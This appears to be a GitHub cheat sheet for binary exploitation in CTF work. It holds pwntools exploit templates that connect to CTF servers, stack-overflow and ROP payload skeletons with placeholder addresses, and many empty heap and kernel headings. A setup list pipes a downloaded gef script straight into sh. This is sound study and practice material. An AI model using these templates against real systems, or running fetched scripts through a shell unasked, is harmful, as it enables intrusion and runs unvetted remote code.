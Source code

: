 # Native Application Exploitation aka Binary Exploitation aka Pwning
Command Line cheat sheet for binary exploitation

* [Templates](#templates)
* MacOS
* Linux
	* Stack overflow
	* Format string
	* Heap
	* FILE
	* Integer overflow
	* Race conditions
	* Kernel
	* ARM
* Windows
	* Stack
	* Kernel
* [Browser](browser.md)
* [Misc](#misc)

<h2 id="templates">Exploit template</h2>

<h4>Python</h4>
	
	#!/usr/bin/env python
	
	from pwn import *

	BINARY = './library_in_c'
	LIBC = './libc.so.6'
	HOST = 'shell.actf.co'
	PORT = 20201
	
	elf = ELF(BINARY)
	libc = ELF('./libc.so.6')

	context.terminal = ['tmux', 'split-w']
	
	printf = elf.got['printf']		

	def get_base_address(proc):
		return int(open("/proc/{}/maps".format(proc.pid), 'rb').readlines()[0].split('-')[0], 16)

	def debug(breakpoints):
		script = ""
		for bp in breakpoints:
			script += "b *0x%x\n"%(PIE+bp)
		gdb.attach(process(BINARY), gdbscript=script)

	def start():
	    if not args.REMOTE:
		print "LOCAL PROCESS"
		return process(BINARY, env={"LD_PRELOAD":LIBC))
	    else:
		print "REMOTE PROCESS"
		return remote(HOST, PORT)


	p = start()
	if args.GDB:
	    gdb.attach(p, 'b main')

	p.interactive()







<h4>Ruby</h4>
	
	gem install pwntools
	
	require 'pwn'
	
	context.arch = 'i386'
	context.log_level = :debug
	z = Sock.new 'chall.pwnable.tw', 10000

	z.recvuntil "Let's start the CTF:"
	z.send p64(0x1337).rjust(0x18, 'A')
	

	z.interact

	


<h2 id="linux">Linux</h2>

<h3 id="stack">Stack Exploitation</h3>
	
<h4>Stack overflow</h4>

	buffer = 'A' * 1337
	rip = p64(0x1337) # Address of shellcode
	payload = "SHELLCODE"

	exploit = buffer + rip
	

<h4>Shellcode in bss section</h4>

	buffer = 'A' * 1337
	gets = elf.plt['gets']
	bss = elf.bss(0x20) # BSS at 0x20 bytes offset
	pop_rdi = p64(0x1337)

	payload = buffer + pop_rdi + bss + gets + bss

<h4>Ret2libc</h4>

<h4>ROP syscall</h4>
		
<h4>ROP</h4>

<h3>Format String</h3>

<h3>Heap</h3>

<h4>Off by one</h4>

<h4>Chunk extension/Overlapping</h4>

<h4>Unlink</h4>

<h4>Use After Free</h4>

<h4>Fastbin attack</h4>

<h4>Unsorted bin attack</h4>

<h4>Large bin attack</h4>

<h4>Tcache attacks</h4>

<h4>House of Einherjar</h4>

<h4>House of Force</h4>

<h4>House of Lore</h4>

<h4>House of Orange</h4>

<h4>House of Rabbit</h4>

<h4>House of Roman</h4>

<h3>FILE</h3>

<h3>Integers</h3>

<h3>Race Conditions</h3>

<h3>Kernel</h3>

<h2 id="misc">Misc</h2>

	# Debug Macho binaries (by mgrube)
	codesign --remove-signature app.app
	xattr -r -d app.app

	# Quick pwn setup

	apt update
	sudo apt install wget
	apt install gdb
	wget -q -O- https://github.com/hugsy/gef/raw/master/scripts/gef.sh | sh
	apt install python
	apt install wget
	apt install net-tools
	apt install ruby
	apt install tmux
	pip install capstone
	pip install ropgadget
	gem install one_gadget
